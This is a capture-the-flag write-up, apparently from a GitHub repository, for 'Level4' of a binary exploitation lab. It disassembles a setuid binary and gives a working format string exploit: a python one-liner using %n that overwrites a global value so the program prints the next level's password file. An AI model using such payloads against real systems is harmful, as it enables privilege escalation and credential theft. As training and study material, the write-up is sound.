 # Level4

## Solution

* There is one file in our home, ```level4```, belonging to ```level5``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```n``` function.

* Here is the disassembled ```n``` function:
```asm
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218
0x08048460 <+9>:	mov    eax,ds:0x8049804
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
0x08048471 <+26>:	lea    eax,[ebp-0x208]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
0x0804847f <+40>:	lea    eax,[ebp-0x208]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
0x080484a0 <+73>:	call   0x8048360 <system@plt>
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
   ```

* Several interesting information about it:

	* ```n``` calls ```fgets``` at offset ```35``` function with a buffer allocated on the stack.
	* then it calls ```p``` function (see after) qt offset ```49```, passing the buffer in parameter.
	* between offsets ```54``` and ```64```, it compares the value contained at the address ```0x8049810``` with the value ```0x1025544```.
	* if they are the same, it calls ```system``` function. ```gdb``` allows us to see that the command passed in parameter is ```/bin/cat /home/user/level5/.pass```

* Here is the diassembled ```p``` function:
```
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
   ```

* Interesting information about it:

	* there is call to ```printf``` at offset ```12```. ```gdb``` allows us to see that it is with the buffer allocated for ```fgets```


* What we did with all of this:

	* the goal was to modify the value held at ```0x8049810``` so that it becomes equal to ```0x1025544```, what would launch the ```system("/bin/cat /home/user/level5/.pass")```
	* for that we exploited the "format string vulnerability" of ```printf``` called in ```p```, with our own ```input``` (the one we send to ```fgets```).
	* we used conversion specifiers (for instance ```%x```), to get to the beginning of the buffer allocated for ```fgets```. Indeed, each time we use a conversion specifier, ```printf``` "points" after the last argument it processed on the stack.
	* We made sure the first value at the beginning of the buffer was ```0x8049810```
	* then we used ```%n``` to store at this address the length of the output string

	* To make a long story short:
	```sh
	python -c "print('10980408'.decode('hex') + '%8x ' * 10 + '%16930022x' + '%n')" > /var/crash/lvl4
	```
	* ```10980408``` is the little endian written address we want to write at
	* we used ```11``` conversion specifiers to reach the beginiing of the buffer (there were ```(1 + 10 + 1) * 4 = 48``` bytes separating first argument of printf from the buffer)
	* we use the lenght modifier ```%16930022x``` to output a final string of the size ```0x1025544```
	* ```%n``` stores this value at the address ```0x8049810```

	* We finally get the flag by launching:
	```sh
	cat /var/crash/lvl4 - | ./level4
	```
